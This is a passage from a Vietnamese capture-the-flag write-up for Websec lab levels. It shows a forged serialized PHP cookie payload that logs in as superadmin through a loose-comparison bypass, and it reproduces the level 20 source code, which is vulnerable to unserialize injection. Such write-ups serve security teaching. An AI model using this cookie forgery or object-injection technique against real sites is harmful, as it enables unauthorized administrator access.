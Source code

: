 ![image](https://user-images.githubusercontent.com/80137840/225508503-d195387b-8111-44d8-85b2-956e82aa9235.png)

nên ta có thể thay `password` bằng True sẽ bypass được phép kiểm tra này (do boolean True == String khác rỗng)

Như vậy cookie autologin serialized để login as administrator sẽ có dạng:

`a:2:{s:5:"login";s:10:"superadmin";s:8:"password";b:1;}`

Apply changes và send request

![image](https://user-images.githubusercontent.com/80137840/225509490-c7fd4267-de26-4fe8-8c38-16e498bb6dae.png)

Flag: `NoUserInputInPHPSerialization!`


## Websec level 20

Trang web bài lab và source code

![image](https://user-images.githubusercontent.com/80137840/225511093-016c335d-fee1-4b3d-97bc-238a64a25ccf.png)

```php
<?php

include "flag.php";

class Flag {
    public function __destruct() {
       global $flag;
       echo $flag; 
    }
}

function sanitize($data) {
    /* i0n1c's bypass won't save you this time! (https://www.exploit-db.com/exploits/22547/) */
    if ( ! preg_match ('/[A-Z]:/', $data)) {
        return unserialize ($data);
    }

    if ( ! preg_match ('/(^|;|{|})O:[0-9+]+:"/', $data )) {
        return unserialize ($data);
    }

    return false;
}

$data = Array();
if (isset ($_COOKIE['data'])) {
    $data = sanitize (base64_decode ($_COOKIE['data']));
}

if (isset ($_POST['value']) and ! empty ($_POST['value'])) {
    /* Add a value twice to remove it from the list. */
    if (($key = array_search ($_POST['value'], $data)) !== false) {
        unset ($data[$key]);
    } else { /* Else, simply add it. */
        array_push ($data, $_POST['value']);
    }
    setcookie ('data', base64_encode (serialize ($data)));
}

?>
```
